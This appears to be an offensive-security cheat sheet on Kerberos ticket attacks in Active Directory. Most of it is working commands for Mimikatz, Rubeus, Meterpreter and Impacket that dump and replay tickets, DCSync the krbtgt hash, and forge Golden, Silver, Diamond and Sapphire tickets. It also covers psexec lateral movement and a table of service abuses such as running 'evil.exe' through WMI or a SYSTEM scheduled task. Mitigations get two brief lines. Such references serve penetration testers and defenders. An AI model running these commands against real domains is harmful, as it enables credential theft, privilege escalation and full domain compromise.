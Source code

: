 # Kerberos - Tickets

Tickets are used to grant access to network resources. A ticket is a data structure that contains information about the user's identity, the network service or resource being accessed, and the permissions or privileges associated with that resource. Kerberos tickets have a limited lifetime and expire after a set period of time, typically 8 to 12 hours.

There are two types of tickets in Kerberos:

* **Ticket Granting Ticket** (TGT): The TGT is obtained by the user during the initial authentication process. It is used to request additional service tickets without requiring the user to re-enter their credentials. The TGT contains the user's identity, a timestamp, and an encryption of the user's secret key.

* **Service Ticket** (ST): The service ticket is used to access a specific network service or resource. The user presents the service ticket to the service or resource, which then uses the ticket to authenticate the user and grant access to the requested resource. The service ticket contains the user's identity, a timestamp, and an encryption of the service's secret key.


## Dump Kerberos Tickets

* Mimikatz: `sekurlsa::tickets /export`
* Rubeus 
  ```ps1
  # List available tickets
  Rubeus.exe triage

  # Dump one ticket, the output is in Kirbi format
  Rubeus.exe dump /luid:0x12d1f7
  ```


## Replay Kerberos Tickets

* Mimikatz: `mimikatz.exe "kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache"`
* CrackMapExec: `KRB5CCNAME=/tmp/administrator.ccache crackmapexec smb 10.10.10 -u user --use-kcache`


## Convert Kerberos Tickets

In the Kerberos authentication protocol, ccache and kirbi are two types of Kerberos credential caches that are used to store Kerberos tickets.

* A credential cache, or `"ccache"` is a temporary storage area for Kerberos tickets that are obtained during the authentication process. The ccache contains the user's authentication credentials and is used to access network resources without having to re-enter the user's credentials for each request.

* The Kerberos Integrated Windows Authentication (KIWA) protocol used by Microsoft Windows systems also makes use of a credential cache called a `"kirbi"` cache. The kirbi cache is similar to the ccache used by standard Kerberos implementations, but with some differences in the way it is structured and managed.

While both caches serve the same basic purpose of storing Kerberos tickets to enable efficient access to network resources, they differ in format and structure. You can convert them easily using:

* kekeo: `misc::convert ccache ticket.kirbi`
* impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`


## Pass-the-Ticket Golden Tickets

Forging a TGT require:
* the `krbtgt` NT hash
* since recently, we cannot use a non-existent account name as a result of `CVE-2021-42287` mitigations

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt NT hash must be used.

### Using Mimikatz

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

### Using Meterpreter 

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```

### Using a ticket on Linux

```powershell
# Convert the ticket kirbi to ccache with kekeo
misc::convert ccache ticket.kirbi

# Alternatively you can use ticketer from Impacket
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da

ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519
./ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519

export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME

# NOTE: You may need to comment the proxy_dns setting in the proxychains configuration file
./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

If you need to swap ticket between Windows and Linux, you need to convert them with `ticket_converter` or `kekeo`.

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```


Mitigations:
* Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years


## Pass-the-Ticket Silver Tickets

Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |


Mitigations:
* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.


## Pass-the-Ticket Diamond Tickets

> Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

Require: 
* krbtgt NT Hash
* krbtgt AES key

```ps1
ticketer.py -request -domain 'lab.local' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'

Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```


## Pass-the-Ticket Sapphire Tickets

> Requesting the target user's PAC with `S4U2self+U2U` exchange during TGS-REQ(P) (PKINIT).

The goal is to mimic the PAC field as close as possible to a legitimate one.

Require:
* [Impacket PR#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
* krbtgt AES key

```ps1
# baduser argument will be ignored
ticketer.py -request -impersonate 'domain_adm' -domain 'lab.local' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```